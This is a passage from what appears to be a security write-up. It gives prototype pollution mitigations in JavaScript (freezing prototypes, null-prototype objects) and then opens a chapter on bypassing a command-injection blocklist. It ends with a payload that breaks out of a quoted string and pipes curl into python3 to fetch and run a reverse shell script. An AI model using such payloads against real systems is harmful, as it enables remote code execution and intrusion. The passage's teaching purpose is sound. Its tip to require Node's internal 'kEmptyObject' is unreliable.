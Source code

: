By employing the Object.freeze() method on an object, you effectively lock down its properties and values, rendering them immutable and preventing the addition of new properties. Since prototypes are essentially objects, you can proactively safeguard against potential vulnerabilities like so:

`Object.freeze(Object.prototype);`

Alternatively, you can consider using the Object.seal() method, which allows changes to existing property values while still restricting the addition of new properties. This approach can serve as a viable compromise when using Object.freeze() is not feasible for certain reasons.
### Eliminate gadgets
In addition to using Object.freeze() to mitigate potential prototype pollution sources, you can also implement measures to neutralize potential gadgets. By doing so, even if an attacker identifies a prototype pollution vulnerability, it is likely to be rendered non-exploitable.

By default, all objects inherit from the global Object.prototype, either directly or indirectly through the prototype chain. However, you have the option to manually set an object's prototype using the Object.create() method. This not only enables you to designate any object as the new object's prototype but also allows you to create the object with a null prototype. This null prototype ensures that the object won't inherit any properties whatsoever:

```
let object = Object.create(null);
Object.getPrototypeOf(object); // null
```

When using node, you can also use kEmptyObject instead of normal objects.
```
const { kEmptyObject } = require('internal/util');
let object = kEmptyObject
Object.getPrototypeOf(object); // null
```

By employing this technique, you effectively isolate your objects from the global prototype chain, reducing the risk of prototype pollution vulnerabilities and enhancing the security of your code.

## So if this exploit is prohibited, then how do we pop the shell?

Let me show you another vulnerability that was found here.

<div id="0x05"></div>

# 0x05 Command injection
<a href="#0x04"><button class="nav-btn">Previous chapter</button></a><a href="#0x06"><button class="nav-btn">Next chapter</button></a>

Command injection? Wasn't that sanitized? Yes, but the developer employed a blocklist and thought so too, but overlooked the possible syntax.

![](http://news.baycode.eu/wp-content/uploads/2023/09/2-2.png)

While it would stop a payload such like this:
```
'"; curl http://localhost:8000/reverse_shell.py | python3 #
```
